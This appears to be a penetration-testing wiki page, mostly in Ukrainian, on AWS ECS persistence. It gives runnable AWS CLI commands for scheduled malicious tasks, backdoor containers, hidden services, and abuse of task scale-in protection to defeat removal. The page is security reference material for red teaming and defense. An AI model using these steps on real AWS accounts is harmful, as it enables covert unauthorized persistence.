 # AWS - ECS Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## ECS

Для отримання додаткової інформації дивіться:

{{#ref}}
../../aws-services/aws-ecs-enum.md
{{#endref}}

### Hidden Periodic ECS Task

> [!NOTE]
> TODO: Перевірити

Зловмисник може створити hidden periodic ECS task, використовуючи Amazon EventBridge, щоб **планувати періодичне виконання шкідливої задачі**. Така задача може виконувати reconnaissance, exfiltrate data або підтримувати persistence в обліковому записі AWS.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
{
"Id": "malicious-ecs-task-target",
"Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
"RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
"EcsParameters": {
"TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
"TaskCount": 1
}
}
]'
```
### Backdoor Container in Existing ECS Task Definition

> [!NOTE]
> TODO: Test

Атакувальник може додати **stealthy backdoor container** у наявний ECS task definition, який працює поруч із легітимними контейнерами. Цей backdoor container може використовуватися для persistence та виконання зловмисних дій.
```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
{
"name": "legitimate-container",
"image": "legitimate-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
},
{
"name": "backdoor-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": false
}
]'
```
### Незадокументований ECS Service

> [!NOTE]
> TODO: Перевірити

Зловмисник може створити **незадокументований ECS service**, який запускає шкідливий task. Встановивши бажану кількість tasks на мінімум та відключивши logging, адміністраторам стає складніше помітити шкідливий service.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```
### Утримання в ECS через Task Scale-In Protection (UpdateTaskProtection)

Зловживання ecs:UpdateTaskProtection дозволяє запобігти зупинці сервісних задач під час scale‑in events та rolling deployments. Постійно продовжуючи protection, зловмисник може підтримувати довгостроковий task у роботі (для C2 або збору даних), навіть якщо захисники зменшать desiredCount або викотять нові task revisions.

Кроки для відтворення в us-east-1:
```bash
# 1) Cluster (create if missing)
CLUSTER=$(aws ecs list-clusters --query 'clusterArns[0]' --output text 2>/dev/null)
[ -z "$CLUSTER" -o "$CLUSTER" = "None" ] && CLUSTER=$(aws ecs create-cluster --cluster-name ht-ecs-persist --query 'cluster.clusterArn' --output text)

# 2) Minimal backdoor task that just sleeps (Fargate/awsvpc)
cat > /tmp/ht-persist-td.json << 'JSON'
{
"family": "ht-persist",
"networkMode": "awsvpc",
"requiresCompatibilities": ["FARGATE"],
"cpu": "256",
"memory": "512",
"containerDefinitions": [
{"name": "idle","image": "public.ecr.aws/amazonlinux/amazonlinux:latest",
"command": ["/bin/sh","-c","sleep 864000"]}
]
}
JSON
aws ecs register-task-definition --cli-input-json file:///tmp/ht-persist-td.json >/dev/null

# 3) Create service (use default VPC public subnet + default SG)
VPC=$(aws ec2 describe-vpcs --filters Name=isDefault,Values=true --query 'Vpcs[0].VpcId' --output text)
SUBNET=$(aws ec2 describe-subnets --filters Name=vpc-id,Values=$VPC Name=map-public-ip-on-launch,Values=true --query 'Subnets[0].SubnetId' --output text)
SG=$(aws ec2 describe-security-groups --filters Name=vpc-id,Values=$VPC Name=group-name,Values=default --query 'SecurityGroups[0].GroupId' --output text)
aws ecs create-service --cluster "$CLUSTER" --service-name ht-persist-svc \
--task-definition ht-persist --desired-count 1 --launch-type FARGATE \
--network-configuration "awsvpcConfiguration={subnets=[$SUBNET],securityGroups=[$SG],assignPublicIp=ENABLED}"

# 4) Get running task ARN
TASK=$(aws ecs list-tasks --cluster "$CLUSTER" --service-name ht-persist-svc --desired-status RUNNING --query 'taskArns[0]' --output text)

# 5) Enable scale-in protection for 24h and verify
aws ecs update-task-protection --cluster "$CLUSTER" --tasks "$TASK" --protection-enabled --expires-in-minutes 1440
aws ecs get-task-protection --cluster "$CLUSTER" --tasks "$TASK"

# 6) Try to scale service to 0 (task should persist)
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --desired-count 0
aws ecs list-tasks --cluster "$CLUSTER" --service-name ht-persist-svc --desired-status RUNNING

# Optional: rolling deployment blocked by protection
aws ecs register-task-definition --cli-input-json file:///tmp/ht-persist-td.json >/dev/null
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --task-definition ht-persist --force-new-deployment
aws ecs describe-services --cluster "$CLUSTER" --services ht-persist-svc --query 'services[0].events[0]'

# 7) Cleanup
aws ecs update-task-protection --cluster "$CLUSTER" --tasks "$TASK" --no-protection-enabled || true
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --desired-count 0 || true
aws ecs delete-service --cluster "$CLUSTER" --service ht-persist-svc --force || true
aws ecs deregister-task-definition --task-definition ht-persist || true
```
Наслідок: Захищене завдання залишається RUNNING незважаючи на desiredCount=0 і блокує заміни під час нових розгортань, дозволяючи приховану довготривалу персистентність у сервісі ECS.

{{#include ../../../../banners/hacktricks-training.md}}
